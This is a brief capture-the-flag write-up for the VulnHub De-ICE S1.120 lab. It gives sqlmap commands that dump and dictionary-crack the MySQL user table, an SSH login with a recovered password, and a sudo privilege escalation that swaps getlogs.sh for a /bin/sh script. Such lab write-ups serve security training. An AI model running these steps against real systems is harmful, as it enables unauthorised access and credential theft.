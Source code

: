 # De-ICE: S1.120 - write-up

https://www.vulnhub.com/entry/de-ice-s1120,10/

This challenge was a little shorter and it was mainly about sql injections. Looking at the website http://192.168.1.120/, we see that we can add products and view them. This looks like a case of sql injection. Looking at the parameter, we can view products by querying the database. We run `sqlmap -u "http://192.168.1.120/products.php?id=1" --dbs` and see that it has the mysql database. We look into each table `sqlmap -u "http://192.168.1.120/products.php?id=1" --tables -D mysql` to find a user table. We can use `sqlmap -u "http://192.168.1.120/products.php?id=1" --dump -D mysql -T user` to get the data and also do yes for the prompt for dictionary attack. We read the sql map csv dump and it has a bunch of users and cracked password. 

Now, we use `ccoffee:password` and `ssh ccoffee@192.168.1.120` to it. We check ccoffee commands `sudo -l` and it says he can run ./getlogs.sh. To get root privlege, all we have to do is rename the existing file `mv getlogs.sh dontcare.sh` and then create a new file that spawns a shell under root privleges, so `echo /bin/sh > getlogs.sh`, change permissions `chmod 777 getlogs.sh` and finally `sudo ./getlogs.sh` and we are in!
